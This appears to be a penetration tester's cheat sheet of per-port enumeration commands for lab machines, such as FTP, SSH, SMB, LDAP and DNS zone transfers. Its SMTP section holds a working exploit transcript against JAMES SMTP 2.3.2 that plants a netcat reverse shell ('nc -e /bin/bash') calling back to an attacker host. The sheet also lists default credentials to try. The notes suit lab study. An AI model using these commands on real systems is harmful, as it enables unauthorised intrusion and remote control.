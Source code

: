 FTP-21:
----------------
       ftp 10.10.10.10
       username:anonymous
       password:password
       
       
       ftp 10.10.10.10
       username:password:)
       password:password       psy shell
       
SSH-22:
------------------
       ssh user@10.10.10.10
       ssh -i id_rsa user@10.10.10.10
       ssh -L 5001:127.0.0.1:5009 user@10.10.10.10
       ssh -oKexAlgorithms=diffie-hellman-group1-sha1 -p 22022 sunny@10.10.10.76
       ssh permission 400 or 600
       
TELNET-23:
-------------------
       telnet 10.10.10.10  
       telnet 10.10.10.10 53 (Banner grabbing)
       
SMTP-25:
-------------------
       220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Mon, 30 Dec 2019 17:10:56 -0500 (EST)
       EHLO bla.bla
       250-solidstate Hello bla.bla (10.10.14.12 [10.10.14.12])
       250-PIPELINING
       250 ENHANCEDSTATUSCODES
       MAIL FROM: <'random@random.com>
       250 2.1.0 Sender <'random@random.com> OK
       RCPT TO: <../../../../../../../../etc/bash_completion.d>
       250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
       DATA
       354 Ok Send data ending with <CRLF>.<CRLF>
       FROM: bla.bla
       '
       /bin/nc -e /bin/bash 10.10.14.12 1234
       .
       250 2.6.0 Message received
       quit
       
      
DNS-53:
--------------------------------
       nslookup
       server 10.10.10.10
       10.10.10.10
       
       
       host -l hack.htb 10.10.10.10
       
HTTP-80:
-----------------------------------
       CMS OR CF OR user,help,admin,robots.txt
       source code and page info(look into certificates foremail id)
       dirbuster or gobuster or wfuzz
       burp suite 
       Windows or Linux
       
       
Kerberos-88:
------------------------------------




POP3-110:
------------------------------------
       nc 10.10.10.10 110
       USER  mindy
       PASS password
       
       telnet 10.10.10.10   110
       username:
       root
       password:
       root
       
RPCBIND-111:
-------------------------------------
       rpcbind -p 10.10.10.10
       
MSRPC-135:
-------------------------------------
       NMAP SCRIPTS
       METASPLOIT
SMB(139 OR 445):
-----------------------------------
       smbclient -L 10.10.10.10
       smbmap -R -H 10.10.10.10
       enum4linux -a 10.10.10.10
       rpcclient -U "" 10.10.10.10
       nbtscan -r 10.10.10.0/24
       metasploit  (psexec)
       
IMAP(143 OR 993):
-----------------------------------
       
SNMP(162 OR 163):
-----------------------------------
       snmp-check
       snmp-walk
LDAP(389 OR 636):
------------------------------------
        ldapsearch -x -h 10.10.10.10  -b "dc=hack,dc=htb"

HTTPS-443:
---------------------------------------------
       CMS OR CF OR user,help,admin,robots.txt
       source code and page info(look into certificates foremail id)
       dirbuster or gobuster or wfuzz
       burp suite 
       Windows or Linux
       
       
       

